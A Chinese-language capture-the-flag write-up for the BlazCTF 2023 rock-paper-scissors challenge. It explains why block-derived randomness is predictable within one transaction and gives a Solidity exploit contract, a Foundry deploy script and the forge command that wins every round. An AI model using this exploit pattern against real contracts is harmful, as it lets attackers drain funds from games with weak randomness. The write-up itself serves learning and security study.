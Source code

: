 题目来自 https://github.com/fuzzland/blazctf-2023/tree/main/challenges/rock-paper-scissor

使用blocknumber作为随机数参数是非常危险的。
跨合约调用的block信息相同，因为它们在同一交易内执行，EVM确保区块信息在整个交易过程中一致。
因此我们可以编写攻击合约代码如下。该合约获取了Challenge合约相同的 `randomShape` （其中msg.sender改成了攻击合约的地址）。然后发送必胜的结果就行。

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

enum Hand {
    Rock,
    Paper,
    Scissors
}

interface IRockPaperScissors {
    function tryToBeatMe(Hand yours) external payable;
}

interface IChallenge {
    function rps() external view returns (address);
}

contract Solution {
    IChallenge challenge;
    IRockPaperScissors rps;

    constructor(address challengeAddress) {
        challenge = IChallenge(challengeAddress);
        rps = IRockPaperScissors(challenge.rps());
    }

    function randomShape() internal view returns (Hand) {
        return Hand(uint256(keccak256(abi.encodePacked(address(this), blockhash(block.number - 1)))) % 3);    
    }

    function execute() external payable {
        Hand target = randomShape();
        uint8 choice = (uint8(target) + 1) % 3;
        Hand choiceHand = Hand(choice);
        rps.tryToBeatMe{value: msg.value}(choiceHand);
    }
}
```

部署脚本如下

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Script, console} from "forge-std/Script.sol";
import {Solution} from "../src/Solution.sol";

contract DeployScript is Script {
    Solution public solution;

    function setUp() public {}

    function run() public {
        vm.startBroadcast();
        solution = new Solution(0x8661783352F06be92EB46424881d88AE65d18e6E);
        solution.execute();       
        vm.stopBroadcast();
    }
}
```

执行命令

forge script script/Deploy.s.sol:DeployScript --rpc-url $RPC_URL --private-key $PRIVATE_KEY --broadcast
